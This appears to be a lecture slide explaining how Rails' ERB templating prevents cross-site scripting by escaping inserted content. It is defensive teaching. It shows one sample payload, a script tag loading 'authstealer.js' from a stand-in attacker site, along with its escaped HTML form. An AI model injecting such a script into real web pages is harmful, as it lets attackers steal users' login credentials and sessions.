

# How to prevent cross-site scripting (XSS)?
Use Rails!
Hartl: “Rails automatically prevents the [XSS] problem by escaping any content inserted into view templates.”
<script src="http://mallorysevilsite.com/authstealer.js">
ERB translates variable values to…
&lt;script src=&quot;http://mallorysevilsite.com/authstealer.js&quot;&gt;